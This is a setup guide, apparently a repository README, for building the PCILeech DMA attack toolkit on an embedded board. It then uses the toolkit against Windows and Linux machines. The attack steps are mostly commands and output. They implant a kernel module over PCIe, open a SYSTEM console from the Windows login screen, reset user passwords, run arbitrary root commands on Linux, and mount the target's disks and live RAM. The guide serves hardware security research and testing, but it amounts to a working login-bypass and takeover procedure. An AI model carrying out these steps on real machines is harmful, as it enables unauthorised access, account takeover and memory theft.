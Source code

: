 # PCILeech setup
On the embedded platform

Install dependencies

```shell
sudo apt install libusb-1.0-0-dev build-essential pkgconf liblz4-dev libfuse-dev
```

```shell
mkdir PCILeech
# Clone Leechcore
git clone https://github.com/ufrisk/LeechCore.git
# Clone Leechcore-plugins
git clone https://github.com/rwk-git/LeechCore-plugins.git --branch generic --single-branch
# Clone MemProcFS
git clone https://github.com/ufrisk/MemProcFS.git
# Clone PCILeech
git clone https://github.com/ufrisk/pcileech.git

# Build the LeechCore library
pushd LeechCore/leechcore
make
popd
# Build the MemProcFS library
pushd MemProcFS/vmm
make
cd ../memprocfs
make
popd
# Build the LeechCore plugin
pushd LeechCore-plugins/leechcore_device_generic
make
popd
# Build PCI Leech
cd pcileech/pcileech
make
cd ../files
cp ../../LeechCore-plugins/files/leechcore_device_generic.so .
popd
```

## Windows target

- Implant kernel module with `sudo ./pcileech kmdload -kmd WIN10_X64_3 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x7ffff000` here you manually have to type the address returned above
- List processes with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io'`
- Search for login process with `sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1`
- Open a console with `sudo ./pcileech -kmd $KMD wx64_pscreate -0 0x$(sudo ./pcileech -kmd $KMD wx64_pslist  -device 'generic://dev=/dev/pci-io' | grep -A 1 LogonUI.exe | sed 's/.*PID=\(.*\)|.*/\1/p' | tail -n1) -s 'C:\Windows\System32\cmd.exe' -1 0x08000000 -2 0x1  -device 'generic://dev=/dev/pci-io'`
  Here a nested command is used to get the PID of the LogonUI.exe process in Windows, then a command line is opened
- Change the password with `net user <username> <password>` e.g., `net user admin 1234`
- This is a system (Windows jargon for *root*) console, you can do anything from here.

**Notes:** In the examples above I use `LogonUI.exe` as parent process, this is only available on the login screen, choose another process in other circumstances.

### Mount all Windows file systems and system RAM

- Create a mountpoint somewhere in your file system `mkdir -p /home/ubuntu/target`
- Mount the windows file systems and RAM with `sudo ./pcileech mount -mount /home/ubuntu/target/ -kmd $KMD -device 'generic://dev=/dev/pci-io'`

```
root@ENVME:~# ls /home/ubuntu/target/
files  liveram-kmd.raw	liveram-native.raw
# Read the RAM natively (through PCIe), for example here data is shown for the low addresses
root@ENVME:~# xxd /home/ubuntu/target/liveram-native.raw | head -n 1000
# Read the RAM through the kernel module, for example here these low addresses cannot be accessed, therefore read as 0
root@ENVME:~# xxd /home/ubuntu/target/liveram-kmd.raw | head -n 1000
# Check the taget file systems
root@ENVME:~# ls /home/ubuntu/target/files/c/
'$Recycle.Bin'		   PerfLogs		        Users
'$WinREAgent'		  'Program Files'	        Windows
'Documents and Settings'  'Program Files (x86)'         hiberfil.sys
 DumpStack.log		   ProgramData		        pagefile.sys
 DumpStack.log.tmp	   Recovery		        swapfile.sys
 Intel			  'System Volume Information'
```

## Linux target

- Implant kernel module with `sudo ./pcileech kmdload -kmd LINUX_X64_48 -device 'generic://dev=/dev/pci-io'`
- Save the returned Kernel Module Address with `export KMD=0x60000000` here you manually have to type the address returned above
- Send any command as root `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo '<user>:<password>' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  For example `sudo ./pcileech -kmd $KMD lx64_exec_root -s "echo 'reds:1234' | chpasswd" -1 1 -device 'generic://dev=/dev/pci-io'`
  Or turn off the computer (properly) `sudo ./pcileech -kmd $KMD lx64_exec_root -s "poweroff" -1 1 -device 'generic://dev=/dev/pci-io'`